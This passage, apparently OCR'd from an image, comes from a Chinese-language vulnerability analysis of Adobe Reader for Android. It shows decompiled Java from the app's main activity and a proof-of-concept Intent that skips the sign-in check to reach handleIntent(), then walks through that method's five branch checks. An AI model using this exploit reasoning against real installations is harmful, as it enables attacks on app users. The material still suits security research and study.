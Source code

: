 ```java
    
    private void handleOnResume() {
        if(!ARIntentUtils.isEurekaReviewIntent(this.getIntent()) && !ARServicesAccount.getInstance().isSignedIn() 
                && !this.shouldDisableOptionalSignForAutomation(this.getIntent())) {
            this.handleSSO();
            return;
        }

        this.handleIntent();  // [2]
    }
```

如下构造POC即可使业务逻辑走到`[2]`

```java
Intent intent = new Intent();
intent.setClassName("com.adobe.reader", "com.adobe.reader.AdobeReader");
intent.putExtra("hideOptionalScreen", "true");
startActivity(intent);
```

`handleIntent()`一共有五个判断点，前四个判断点不能进入，只能进入第五个判断点

```java
// com.adobe.reader.AdobeReader
public class AdobeReader extends AppCompatActivity implements ARSigningUtilsHandleOnClickingCross {

    private void handleIntent() {
        this.mShouldCheckForLogin = false;
        Intent __intent__ = this.getIntent();  // 获取传入的intent
        v1.toString();  // 此处反编译错误，不影响
        if((this.wasLaunchedFromRecents()) && (ARHomeActivity.getIsBackPressedForExitingApp())) {  // 第一个判断点
            ...
            return;
        }

        if(ARIntentUtils.isEurekaReviewIntent(__intent__)) {  // 第二个判断点
            ...
            return;
        }

        if(ARIntentUtils.isSendAndTrackReviewIntent(__intent__)) {  // 第三个判断点
            ...
            return;
        }

        if(!TextUtils.equals(__intent__.getScheme(), "http") && !TextUtils.equals(__intent__.getScheme(), "https")) {  // 第四个判断点
            ...
            return;
        }

        if(__intent__.getData() != null && !__intent__.getData().toString().contains("app.link")) {  // 第五个判断点
            ...
            return;
        }

        ...
    }
    
    ...
}
```